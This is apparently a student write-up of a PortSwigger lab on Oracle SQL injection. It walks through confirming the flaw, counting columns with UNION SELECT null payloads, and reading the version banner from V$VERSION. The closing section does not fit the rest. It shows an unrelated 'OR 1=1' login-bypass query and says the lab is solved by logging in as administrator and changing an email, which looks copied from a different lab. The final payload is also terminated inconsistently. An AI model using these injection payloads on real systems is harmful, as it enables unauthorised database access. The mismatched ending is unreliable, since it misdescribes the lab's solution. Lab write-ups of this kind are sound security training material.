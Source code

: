 # Write-up: SQL injection attack, querying the database type and version on Oracle
Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle>  
Difficulty: PRACTITIONER  
Python script: 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

Confirming vulnerability by adding a single quote to the category parameter and getting an error message.

On googling we found out that the table `V$VERSION` contains the database version.

Now, we need to determine the number of columns returned by the query. We can hit and try to find the number of columns returned by the query.

```sql
' UNION SELECT null FROM V$VERSION--
```
Above query returns an error, which means the number of columns is not 1. Now we can try for 2 columns.

```sql
' UNION SELECT null, null FROM V$VERSION--
```
This query returns the page without any error, which means the number of columns is 2.

![alt text](<img/2.png>)

### Exploit

To retrieve the database version, we will use above information and query the database version. The `banner` column contains the database version.

```sql
' UNION SELECT banner, null FROM V$VERSION;
```

The result query should look like
```sql
SELECT * FROM users WHERE username = 'administrator' OR 1=1-- AND password = 'pass'
```

This login me as user administrator and after changing the email to anything solves the lab.

![alt text](img/3.png)